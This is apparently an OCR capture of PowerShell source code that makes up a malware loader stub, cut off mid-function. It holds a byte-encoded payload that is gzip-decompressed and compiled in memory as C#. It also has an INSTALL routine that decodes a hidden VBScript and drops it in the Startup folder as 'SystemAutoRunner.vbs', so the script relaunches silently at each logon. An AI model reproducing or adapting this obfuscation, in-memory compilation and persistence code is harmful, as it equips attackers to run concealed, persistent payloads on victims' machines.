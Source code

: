 ``` powershell
20,198,97,35,253,120,220,235,141,62,253,228,147,247,39,29,160,94,170,168,220,210,113,15,201,4,196,7,253,120,211,131,204,247,171,236,234,105,214,102,210,193,123,117,176,59,40,139,166,135,85,69,255,230,245,155,234,3,58,25,84,124,220,9,49,124,56,140,15,53,49,154,47,80,68,20,105,48,49,127,17,244,53,228,74,153,231,9,103,120,198,79,72,215,189,61,169,86,215,110,152,93,186,216,129,203,31,52,128,224,147,241,115,78,93,109,34,4,158,175,33,253,68,226,144,207,58,152,244,145,232,233,133,247,146,115,60,3,178,142,167,51,253,188,180,62,36,222,3,96,116,254,148,194,49,166,35,151,254,9,53,106,2,107,241,129,26,213,243,59,189,158,227,62,231,123,17,12,82,164,89,204,47,207,79,151,148,90,121,9,248,55,10,82,87,139,237,29,108,26,97,224,62,220,233,26,109,107,149,7,32,120,225,197,201,247,69,90,124,6,139,160,191,1,149,111,34,78,31,204,58,186,111,84,168,135,243,147,221,111,110,12,23,237,11,255,223,139,20,191,126,156,62,76,233,240,107,63,78,31,166,121,244,235,27,9,31,190,245,255,61,234,71,211,248,230,211,111,219,16,58,150,235,247,63,221,36,223,6,88,151,56,119,32,98,219,187,239,47,97,239,67,145,200,176,35,31,209,218,228,116,222,255,120,0,7,85,191,208,229,250,235,147,235,179,217,150,75,100,139,58,116,138,250,108,118,231,206,248,247,42,202,114,16,77,176,73,177,92,199,148,92,4,221,226,147,79,34,13,39,68,218,183,157,207,189,151,245,87,250,241,75,254,31,31,153,47,8,105,41,0,0,0)

Function INSTALL() {
    [String] $VBSRun = [System.Text.Encoding]::Default.GetString(@(83,101,116,32,79,98,106,32,61,32,67,114,101,97,116,101,79,98,106,101,99,116,40,34,87,83,99,114,105,112,116,46,83,104,101,108,108,34,41,13,10,79,98,106,46,82,117,110,32,34,80,111,119,101,114,83,104,101,108,108,32,45,69,120,101,99,117,116,105,111,110,80,111,108,105,99,121,32,82,101,109,111,116,101,83,105,103,110,101,100,32,45,70,105,108,101,32,34,32,38,32,34,37,70,105,108,101,80,97,116,104,37,34,44,32,48))
    [System.IO.File]::WriteAllText(([System.Environment]::GetFolderPath(7) + "\" + "SystemAutoRunner.vbs"), $VBSRun.Replace("%FilePath%", $PSCommandPath))
}

Function Decompress {
	[CmdletBinding()]
    Param (
		[Parameter(Mandatory,ValueFromPipeline,ValueFromPipelineByPropertyName)]
        [byte[]] $byteArray = $(Throw("-byteArray is required"))
    )
	Process {
        $input = New-Object System.IO.MemoryStream( , $byteArray )
	    $output = New-Object System.IO.MemoryStream
        $gzipStream = New-Object System.IO.Compression.GzipStream $input, ([IO.Compression.CompressionMode]::Decompress)
	    $gzipStream.CopyTo( $output )
        $gzipStream.Close()
		$input.Close()
		[byte[]] $byteOutArray = $output.ToArray()
        return $byteOutArray
    }
}

function CodeDom([Byte[]] $BB, [String] $TP, [String] $MT) {
$dictionary = new-object 'System.Collections.Generic.Dictionary[[string],[string]]'
$dictionary.Add("CompilerVersion", "v4.0")
$CsharpCompiler = New-Object Microsoft.CSharp.CSharpCodeProvider($dictionary)
$CompilerParametres = New-Object System.CodeDom.Compiler.CompilerParameters
$CompilerParametres.ReferencedAssemblies.Add("System.dll")
$CompilerParametres.ReferencedAssemblies.Add("System.Management.dll")
$CompilerParametres.ReferencedAssemblies.Add("System.Windows.Forms.dll")
$CompilerParametres.ReferencedAssemblies.Add("mscorlib.dll")
$CompilerParametres.ReferencedAssemblies.Add("Microsoft.VisualBasic.dll")
$CompilerParametres.IncludeDebugInformation = $false
$CompilerParametres.GenerateExecutable = $false
$CompilerParametres.GenerateInMemory = $true
$CompilerParametres.CompilerOptions += "/platform:X86 /unsafe /target:library"
$BB = Decompress($BB)
[System.CodeDom.Compiler.CompilerResults] $CompilerResults = $CsharpCompiler.CompileAssemblyFromSource($CompilerParametres, [System.Text.Encoding]::Default.GetString($BB))
[Type] $T = $CompilerResults.CompiledAssembly.GetType($TP)
```